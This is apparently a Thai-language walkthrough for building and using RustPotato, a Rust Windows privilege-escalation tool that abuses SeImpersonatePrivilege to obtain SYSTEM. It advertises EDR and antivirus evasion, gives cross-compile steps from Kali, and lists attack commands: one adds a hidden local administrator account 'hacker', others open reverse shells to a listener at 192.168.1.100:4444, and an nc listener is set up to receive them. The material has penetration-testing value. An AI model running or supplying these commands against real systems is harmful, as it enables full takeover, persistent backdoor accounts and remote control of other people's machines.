




Source: github.com/safedv/RustPotato
Base: GodPotato (BeichenDream) ported to Rust
Target: Windows x86_64 → NT AUTHORITY\SYSTEM
Overview
RustPotato เป็น Rust implementation ของ GodPotato ซึ่งเป็น Privilege Escalation tool ที่ใช้การ abuse DCOM และ RPC เพื่อ leverage SeImpersonatePrivilege และยกระดับสิทธิ์ขึ้นเป็น NT AUTHORITY\SYSTEM บน Windows
จุดเด่นหลัก:
- TCP-based Reverse Shell (รองรับทั้ง
cmdและpowershell) - Indirect NTAPI Calls (หลีกเลี่ยง API hooking จาก EDR)
- Cross-compile ได้จาก Linux (Kali) ไปเป็น Windows x86_64 binary
ความแตกต่างจาก GodPotato (Original)
| Feature | GodPotato (C#) | RustPotato (Rust) |
|---|---|---|
| ภาษา | C# / .NET | Rust |
| Runtime | .NET CLR Required | Native Binary (no runtime) |
| NTAPI | Direct API Calls | Indirect NTAPI (stealthier) |
| Reverse Shell | ไม่มี built-in | มี TCP Reverse Shell built-in |
| AV Evasion | ต่ำกว่า | สูงกว่า (indirect syscalls) |
| Cross-compile | ไม่รองรับ | รองรับ (Linux → Windows) |
| Toolchain | .NET SDK | Rust Nightly |
Execution Flow
- Locate RPC_SERVER_INTERFACE — สแกน memory ของ
combase.dllหา RPC_SERVER_INTERFACE structure - Hook RPC_DISPATCH_TABLE — แทรก custom function pointer เข้า dispatch table
- Create Named Pipe — สร้าง named pipe เช่น
\\.\pipe\RustPotatoพร้อม unrestricted access - Unmarshal COM Object — บังคับให้ RPCSS เชื่อมต่อกับ named pipe
- Trigger RPCSS — ยิง RPC calls ผ่าน hooked dispatch table
- Impersonate Client — ใช้
ImpersonateNamedPipeClientเข้า security context ของ RPCSS - Retrieve SYSTEM Token — ค้นหาและ duplicate token ของ
NT AUTHORITY\SYSTEM - Execute Command — รัน command ด้วย
CreateProcessWithTokenWในฐานะ SYSTEM - Restore & Cleanup — คืน dispatch table และปิด named pipe server
การติดตั้ง (บน Kali Linux)
Prerequisites
- Rust Nightly (version 1.86 ขึ้นไป)
- Cross-compile toolchain สำหรับ
x86_64-pc-windows-gnu
Step 1 — ติดตั้ง Rust Nightly
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
rustup install nightly-2025-02-14Step 2 — เพิ่ม Windows Target
rustup target add x86_64-pc-windows-gnu --toolchain nightly-2025-02-14Step 3 — Clone Repository
git clone https://github.com/safedv/RustPotato
cd RustPotatoStep 4 — Build
# Clean build artifacts ก่อน (แนะนำ)
rustup run nightly-2025-02-14 cargo clean
# Build release binary
rustup run nightly-2025-02-14 cargo build --release --target x86_64-pc-windows-gnu --features verboseOutput binary อยู่ที่: target/x86_64-pc-windows-gnu/release/RustPotato.exe
การใช้งาน (Usage)
Syntax
RustPotato.exe [command line] | [options]Options
| Option | Description |
|---|---|
[command line] | รัน command โดยตรงในฐานะ SYSTEM |
-h <LHOST> | IP address ของ listener (reverse shell) |
-p <LPORT> | Port ของ listener (reverse shell) |
-c <cmd|powershell> | Shell type (default: cmd) |
Examples
# ตรวจสอบ privilege escalation
RustPotato.exe "cmd.exe /c whoami"
# เพิ่ม local admin user
RustPotato.exe "cmd.exe /c net user hacker P@ssw0rd123 /add && net localgroup administrators hacker /add"
# Reverse shell ด้วย cmd (default)
RustPotato.exe -h 192.168.1.100 -p 4444
# Reverse shell ด้วย PowerShell
RustPotato.exe -h 192.168.1.100 -p 4444 -c powershellListener Setup (Kali)
nc -lvnp 4444ตัวอย่างการใช้งาน
เริ่มจากเช็ค Privilege Name ว่ามี SeImpersonatePrivilege ไหม

ใช้ Command ตาม Example เพื่อใช้ในการ Reverse Shell มันสะดวกกว่า GodPotato อีกนะเนี่ย

เปิด nc รอเลย และก็รอรับ shell ได้ SYSTEM เรียบร้อย EZ

Prerequisites บน Target (Windows)
บัญชีที่มี SeImpersonatePrivilege เช่น:
IIS AppPoolMSSQL Service AccountNetwork ServiceLocal Service
Windows OS ที่รองรับ ไม่จำกัด version (ต่างจาก JuicyPotato)
ตรวจเช็คได้จาก Local Security Policy -> Users Rights Assignment -> Impersonate a client after authentication

ปัญหาที่พบระหว่างติดตั้ง
ปัญหา: ต้องใช้ Nightly Toolchain เฉพาะ version
อาการ: Build ล้มเหลวด้วย error เกี่ยวกับ feature flags หรือ unstable API
สาเหตุ: RustPotato ใช้ Rust nightly features ที่ยังไม่ stable
rustup install nightly-2025-02-14
rustup run nightly-2025-02-14 cargo build ...ปัญหา: ไม่มี linker สำหรับ x86_64-pc-windows-gnu
อาการ:
error: linker `x86_64-w64-mingw32-gcc` not foundแก้ไข (Kali/Debian):
sudo apt install gcc-mingw-w64-x86-64 -yปัญหา: Cargo build หา target ไม่เจอ
อาการ: error[E0463]: can't find crate for 'std'
สาเหตุ: ยังไม่ได้ add target สำหรับ toolchain นั้น
rustup target add x86_64-pc-windows-gnu --toolchain nightly-2025-02-14ปัญหา: Build ช้า / สะดุดครั้งแรก
rustup run nightly-2025-02-14 cargo clean
rustup run nightly-2025-02-14 cargo build --release --target x86_64-pc-windows-gnu --features verboseDependencies ที่ compile ในขั้นตอน Build
proc-macro2, quote, unicode-ident
windows-link, windows-result, windows-strings, windows-core v0.61.2
winapi-x86_64-pc-windows-gnu v0.4.0, winapi v0.3.9
libc v0.2.186, libc-print v0.1.23
windows-threading, windows-interface, windows-implement
windows-collections, windows-future, windows-numerics, windows v0.61.3
base64 v0.22.1, syn v2.0.117, byteorder v1.5.0
RustPotato v0.1.0References
- RustPotato GitHub: github.com/safedv/RustPotato
- GodPotato (Original): github.com/BeichenDream/GodPotato
- Rustic64Shell: TCP reverse shell base implementation ที่ RustPotato ใช้